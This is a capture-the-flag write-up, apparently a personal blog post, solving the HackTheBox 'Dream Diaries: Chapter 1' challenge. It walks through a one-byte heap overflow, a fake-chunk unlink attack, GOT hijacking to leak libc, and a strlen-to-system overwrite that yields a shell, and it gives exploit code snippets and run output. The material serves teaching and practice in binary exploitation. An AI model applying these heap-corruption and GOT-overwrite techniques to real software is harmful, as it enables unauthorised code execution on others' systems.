

# Dream Diaries: Chapter 1

## Tags

- x86\_64
- 1 byte heap buffer overflow
- hackthebox

## Intro

This is a very famous `insane` difficulty hackthebox challenge. It's a retired
challenge but it has 3 additional parts that are all still live. The main
vulnerability is a 1 byte heap overflow that allows for crafting a fake chunk
and gaining a nearly arbitrary read/write primitive.

## Analysis

This binary has the following security measures set

    > checksec chapter1
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)

Running the binary shows us a menu that screams typical ctf heap challenge

    +------------------------------+
    |         Dream Diary          |
    +------------------------------+
    | [1] Allocate                 |
    | [2] Edit                     |
    | [3] Delete                   |
    | [4] Exit                     |
    +------------------------------+
    >> 

Opening the binary in ghidra we can see all of the methods that drive the menu.
The chunk array is a global. We can allocate chunks of arbitrary size and are
allowed to fill the entire chunk data section. We can also delete any chunk
from our chunk index and the program correctly sets the chunk index to 0 after 
free'ing. The most interesting part of this program is the edit function

The edit function uses strlen to calculate the length of the allocated chunk.
This is a bug that can be used to edit the size field of a neighboring chunk.
Remember the state of an allocated heap chunk

    Chunk 0: size (8 bytes in 64-bit architectures)
    Chunk 0: data (size bytes long)
    Chunk 1: size
    Chunk 1: data

This means we can write outside of the bounds of a chunk and change it's 
neighbors size field. We will see how can utilize this seemingly weak bug to
gain control over the program.

## Prepping the Target

I originally solved this challenge by using my local version of libc. This 
ended up being a huge mistake because the target is running `glibcc-2.23` and
my local version is `2.31`. Veteran readers will know that the difference 
between these two versions is massive (most notably the addition of `tcache`).
When I ran my exploit against the remote target I causes a `segfault` and was
given a dump of registers values and a memory map. The memory map showed me the
exact version of libc running on the target. Some people would use that 
knowledge and create a docker container for their target. I find docker 
containers to be harder to debug with gdb so I instead decided to compile that
version of `glibc` and patch my binary. It's fairly simple. First we will clone
the `glibc` repo

    $ git clone https://github.com/bminor/glibc.git

Next we will change the branch to match our target. There is a fairly annoying
bug in the branch titled `glibc-2.23` so use the branch titled 
`release/2.23/master` instead

    $ cd glibc
    $ git checkout release/2.23/master

To configure and build do the following. **Do not run make install**. If you
run `make install` you could overwrite your real `libc` and causes significant
issues on your workstation.

    $ mkdir build
    $ cd build
    $ ../configure --prefix=$HOME/test --disable-werror
    $ make -j `nproc`

If the build worked correctly you will have the following `elf` binaries

    $ file libc.so
    libc.so: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /home/user/test/lib/ld-linux-x86-64.so.2, BuildID[sha1]=b14acd762436c2d55e29b40e1d4c23f6bcf9c96a, for GNU/Linux 2.6.32, with debug_info, not stripped
    $ file elf/ld.so
    elf/ld.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=c0967532287459683eaecbc9c681b1db65e473a5, with debug_info, not stripped

To get our target binary to actually use them we will use `patchelf`. Move the
two `glibc` binaries that we just built to your exploit working directory.

    $ cd <working dir>
    $ mkdir glibc-2.23
    $ cp <glibc_dir>/build/libc.so glibc-2.23/libc.so.6
    $ cp <glibc_dir>/build/elf/ld.so glibc-2.23/ld.so

Use `patchelf` to patch the target binary

    $ patchelf --set-rpath ./glibc-2.23/ chapter1
    $ patchelf --set-interpreter ./glibc-2.23/ld.so chapter1

Run the target binary to make sure it works

    $ ./chapter1
    +------------------------------+
    |         Dream Diary          |
    +------------------------------+
    | [1] Allocate                 |
    | [2] Edit                     |
    | [3] Delete                   |
    | [4] Exit                     |
    +------------------------------+
    >>

And we are ready to exploit. One important note:

    The libc we just built is not indexed in libc.rip (the pwnc database). 
    Because of this we have to make sure that when we are exploiting locally we
    use the libc we built. We only use pwnc when exploiting remote.

## Exploitation

We will be exploiting this program using an unlink attack. Recall the following
logic in glibc's `free` (when dealing with chunks going to doubly linked lists)

1. check if size field has PREV\_IN\_USE bit set (least significant bit)
2. If PREV\_IN\_USE is unset: traverse backwards using size field.
3. Use the fwd and bk pointers of the previous chunk to combine with the 
   current chunk

As a reminder let's examine the metadata of a free'd chunk in the small bin.
All fields (except data) are the size of a pointer in whatever architecture is
being used

    prev_size
    size
    fwd
    bk
    data

When `free` combines chunks it verifies the following checks

    fwd->bk = current_chunk
    bk->fwd = current_chunk

Luckily we will know a place where a pointer to `current_chunk` sits in memory.
Our chunk array is predictable and does not move because PIE is not enabled. To
mount this attack we need to first create 5 chunks. All must be large enough to
not goto fastbin when free'd. Make sure the chunk size ends in `8`. Fill index
3 entirely with non-null data.

    size = 0xc8

    # allocate 5 chunks
    allocate(size, b"B")            # 0
    allocate(size, b"B")            # 1
    allocate(size, b"B")            # 2
    allocate(size, size*b"A")       # 3
    allocate(size, b"B")            # 4

We will now craft a fake chunk inside of index `3`. We will also overflow into
the size field of index 4 so that we can change the `PREV_IN_USE` bit to be
disabled.

    payload = p64(0)                          # prev_size
    payload += p64(size-0x10+9)               # size + PREV_IN_USE
    payload += p64(0x6020c0)                  # fwd
    payload += p64(0x6020c8)                  # bk
    payload += (size - len(payload) - 8)*b"C" # filler
    payload += p64(size-8)                    # neighboring chunks PREV_SIZE
    
    # finally set the neighboring chunks size field to not have PREV_IN_USE
    payload += (size + 8 & 0xff).to_bytes(1, "little") 
    edit(3, payload)

Notice a few interesting things about the fake chunk that we have crafted.
First when we use the size field to create our fake size we subtract `0x10` but
then add `0x9`. This is because when we request a chunk of size `0xc8` we are
actually given a chunk of size `0xb0`. This is handled behind the scenes 
because our chunk needs it's `8` byte size field. We add `0x9` to our size 
field becuase the `PREV_IN_USE` bit needs to be set in our fake chunk to avoid
combining twice.

The second interesting thing about our fake chunk is the fwd and bk pointers.
Recall the free chunk metadata from above. Now examine what the chunk list will
look like after we have allocated 5 chunks

    0: <heap ptr>               # prev_size
    1: <heap ptr>               # size
    2: <heap ptr>               # fwd
    3: our chunk address        # bk
    4: victim chunk address     # data

No remember the security check we must pass earlier. We set our `fwd` pointer
to the beginning of the chunk list so that it's `bk` pointer is our chunks
address. We set our `bk` pointer to index 1 of the chunk list so that it's 
`fwd` pointer is also our chunks address. Once the security checks are passed
and the chunks combine it causes the following writes to happen in this order

    fwd->bk = current_chunk     # index 3 = address of index 0
    bk->fwd = current_chunk     # index 3 = address of index 0

This leaves our chunk list in the following state

    0: <heap ptr>
    1: <heap ptr>
    2: <heap ptr>
    3: address of index 0
    4: null

This is a massive first step in exploiting this binary because we can now
write directly to the chunk list. This will allow us to write to virtually any
address in memory. We are still limited in where we want to write because of
the `strlen` check that happens when we edit a chunk. We can only ever write as
many bytes that already exist in a chunk and when that chunk is index 0 of the
chunk list it means we can only write as many bytes as the length of the 
address of a real chunk. Luckily that is long enough to write program addresses
since the heap will always exist after the program in memory.

### Leaking libc

To get anywhere with this exploit we will need to know where libc resides in
memory. I chose to accomplish this by manipulating the `global offset table` of
the program to control which functions are executed by certain parts of the
program. Observe the following changes

    edit(3, p64(elf.got.free))
    edit(0, p64(elf.plt.puts))

We use our crafted chunk at index 3 to write the address of `free@got` to
index 0 of the chunk array. This allows us to directly modify the entry for
free in the `GOT`. We then change it's entry to the address of `puts@plt` which
means when free is called by our target binary it will execute `free@plt` which
uses the address stored at `free@got`. That address is now `puts@plt` which
uses the still valid `puts@got` address to actually run puts. The last part of
our leak is to change index 0 of our chunk array to equal whatever address we
want to leak. We will then `free` the address at chunk 0 which just calls 
`puts` on our address

    edit(3, p64(elf.got.puts))
    data = (delete(0)).split(b"Done")[0]
    if(b"\r\n" in data):
        data = data.split(b"\r\n")[1]
    puts_addr = u64(data.ljust(8, b"\0"))

We can do this multiple times. We just need to call allocate again because our
program sets chunk indexes to 0 once that have been free'd. Do it again with
another libc address

    allocate(size, b"a")
    edit(3, p64(elf.got.read))

    data = (delete(0)).split(b"Done")[0]
    if(b"\r\n" in data):
        data = data.split(b"\r\n")[1]
    read_addr = u64(data.ljust(8, b"\0"))

With two libc addresses in hand we can use 
[pwnc python library I wrote to directly download the targets libc](https://github.com/jhilbs3/pwnc)

    log.info(f"Using pwnc to get libc with known addresses")
    log.info(f"read@libc   = {hex(read_addr)}")
    log.info(f"puts@libc = {hex(puts_addr)}")
    known_addrs = {"read": read_addr, "puts": puts_addr}
    try:
        libc_bytes = get_libc(known_addrs)
    except pwnc_exceptions.PWNCResponseError as e:
        log.warn("Could not download libc. Failing.")
        return 1

    with tempfile.NamedTemporaryFile() as fd:
        fd.write(libc_bytes)
        libc = ELF(fd.name, checksec=False)

    # re-base libc
    libc.address = read_addr - libc.sym.read

If our download was successful we will now know where every libc symbol is in
our targets memory. Using this knowledge to get a shell is fairly simple. We
will overwrite a real libc entry in the GOT point to `system`. For this to work
correctly we must ensure that `rdi` is populated with a chunk address. This is
because we want to call `system(<ptr to our command>)` and it's very easy to
fill a heap chunk with any command we want. I targeted `strlen@got` for this

    # allocate to fill in index 0 again
    allocate(size, b"A")

    # allocate a chunk that contains our desired command
    allocate(size, args.command.encode())

    # we will not use our powers to edit strlen@got to make it point to the
    # address of system in libc
    edit(3, p64(elf.got.strlen))

    # because of pty on target we have to escape the \x7f because thats 
    # backspace. use escape char \x16
    payload = p64(libc.sym.system)

    # live means remote which is probably pty enabled target
    if(args.live):
        payload = payload.replace(b"\x7f", b"\x16\x7f")

    # edit strlen@got to write system@libc
    edit(0, payload)

If you read the above code you would notice that there is one more hurdle we
must overcome for this to work. The real target on hackthebox is being run with
a `pty` through socat. This means that some characters are understood by socat
to mean specific key presses. In our case this means `\x7f` is backspace. This
byte is likely to exist in our `system` address so we must escape the byte with
`\x16` so that it isn't interpreted as backspace. Once `strlen` is prepped we
can simply call `edit` (which calls strlen) on our command chunk

    r.sendline(b"2")
    r.sendlineafter(b"Index: ", b"4")
    r.interactive()

And we have a shell! Thanks for reading. For questions or more clarification
aboutm my exploit or [pwnc](https://github.com/jhilbs3/pwnc) please feel free
to reach out

    python3 solve.py
    [*] './chapter1'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x3ff000)
        RUNPATH:  b'./glibc-2.23/'
    [+] Starting local process './chapter1': pid 27655
    [!] ASLR is disabled!
    [*] Found puts@libc: 0xa1555553f0270
    [*] Found read@libc: 0xa1555554647a0
    [*] Downloaded libc and based: 0xa155555382000
    [*] Switching to interactive mode
    $ id
    uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
    $  
